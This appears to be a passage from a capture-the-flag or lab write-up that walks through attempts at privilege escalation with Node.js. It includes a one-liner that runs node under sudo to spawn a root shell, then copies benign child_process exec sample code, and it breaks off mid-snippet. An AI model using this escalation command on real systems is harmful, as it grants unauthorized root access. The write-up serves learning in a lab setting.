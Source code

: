 ![](./IMG/31.png)
- So I use sudo to try again
```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

![](./IMG/32.png)
- In here, I think direct use the node to privilege escalation  not work.
- So keep research about nodeJS privilege escalation 
- Then I found [this article](https://stackabuse.com/executing-shell-commands-with-node-js/)

![](./IMG/33.png)
- Copy the sample code from article 
```
const {exec} = require("child_process");

exec("ls -al", (error, stdout, stderr)=>{
    if(error){
        console.log(`error: ${error.message}`);
        return;
    }
    if(stderr){
        console.log(`stderr: ${stderr}`);
        return;
```